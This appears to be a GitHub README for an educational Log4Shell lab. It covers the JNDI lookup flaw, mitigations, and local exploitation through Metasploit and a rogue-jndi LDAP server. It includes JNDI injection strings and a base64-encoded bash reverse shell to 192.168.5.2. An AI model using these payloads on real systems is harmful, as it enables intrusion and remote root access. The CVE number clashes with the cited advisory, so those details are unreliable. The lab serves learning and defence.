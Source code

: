 
# Log4Shell lab

> This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

The _Log4Shell exploit_ (CVE-2021-44832) targets a vulnerability in the Apache Log4j logging library, allowing remote code execution by manipulating log messages. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application via JNDI lookups.

Log4j uses Java Naming and Directory Interface (JNDI) to enable dynamic logging configuration based on resources located through naming and directory services. It allows log messages to include lookup patterns that can retrieve data from various sources, such as LDAP or DNS.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

The payload is a Java gadget chain that leverages a Java deserialisation vulnerability. The gadget chain involves invoking methods on serialised objects that execute arbitrary code upon deserialisation, leveraging existing classes in the application's classpath to bypass security checks and gain remote code execution. For more information on choosing which gadget to use to effectively gain code execution on the victim, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

![](img/log4shell_attack.png)

## Vulnerability fix

As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases) are vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_. The vulnerability is addressed in `log4j-core` version 2.16.0 and later.

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Lab

Package the vulnerable application with Gradle.

```bash
tom@MacBook:~/log4shell-lab/vulnerable-app# ./gradlew bootJar
```

Run it in a Docker container.

```bash
tom@MacBook:~/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.

![](img/login.png)

The logs show that the lookup string is resolved.

![](img/verify.png)

## Finding the vulnerability

Use the Metasploit module `scanner/http/log4shell_scanner`. The scanner finds the vulnerable `User-Agent` header from the POC application.

```bash
msf6> use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.5.2
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVPORT 1389
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[+] ::1:8080              - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
```

## Automated exploitation with Metasploit

Metasploit has a couple of modules for automated exploitation. For header injection we can use the module `exploit/multi/http/log4shell_header_injection`.

To work on the lab environment, we use the following options. Replace the LHOST and SRVHOST variables with the Docker host IP. The lab environment uses Java 11 so we will use the Java gadget "BeanFactory".

```bash
set HTTP_HEADER User-Agent
set RHOSTS 127.0.0.1
set RPORT 8080
set LHOST 192.168.5.2
set LPORT 443
set SRVHOST 192.168.5.2
set SRVPORT 1389
set target 2
set JAVA_GADGET_CHAIN BeanFactory
```

Run the exploit and we get shell access.

```bash
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.5.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 127.0.0.1:8080        - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[+] The target is vulnerable.
[*] Command shell session 3 opened (192.168.5.2:4444 -> 192.168.5.5:40058) at 2024-02-17 16:17:43 +0100
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
```

## Manual exploit

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
GET / HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

We get a shell connection into the Docker container.

![](img/revshell.png)

## Resources

- https://github.com/pentesterland/Log4Shell
- https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4
- https://github.com/Cyb3rWard0g/log4jshell-lab
- https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
